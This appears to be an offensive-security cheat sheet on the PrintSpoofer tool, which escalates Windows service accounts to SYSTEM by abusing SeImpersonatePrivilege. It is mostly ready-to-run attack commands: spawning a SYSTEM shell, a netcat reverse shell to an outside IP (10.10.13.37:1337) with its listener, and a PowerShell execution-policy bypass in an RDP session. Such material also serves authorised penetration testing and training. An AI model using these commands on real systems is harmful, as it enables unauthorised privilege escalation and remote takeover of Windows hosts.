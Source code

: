 # Printspoofer / SEImpersonate

{% embed url="https://github.com/itm4n/PrintSpoofer" %}

#### <mark style="color:green;">From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.</mark>

{% embed url="https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/" %}

### <mark style="color:red;">Spawn a SYSTEM process and interact with it</mark>

If you have an interactive shell, you can create a new SYSTEM process in your current console.

```
PrintSpoofer.exe -i -c cmd
```

### <mark style="color:red;">Spawn a SYSTEM process and exit</mark>

If you can execute commands but you don't have an interactive shell, you can create a new SYSTEM process and exit immediately without interacting with it.

Use case: WinRM, WebShell, wmiexec.py, smbexec.py, etc.

```
PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
```

Netcat listener:

```
nc.exe -l -p 1337
```

### <mark style="color:red;">Spawn a SYSTEM process on a desktop</mark>

If you are logged on locally or via RDP (including VDI), you can spawn a SYSTEM command prompt on your desktop. First, check your session ID with the command qwinsta and then specify this value with the option -d.

Use case: Terminal Session (RDP), VDI

```
qwinsta

# check your session ID

PrintSpoofer.exe -d [rdp session id number] -c "powershell -ep bypass"

PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
```
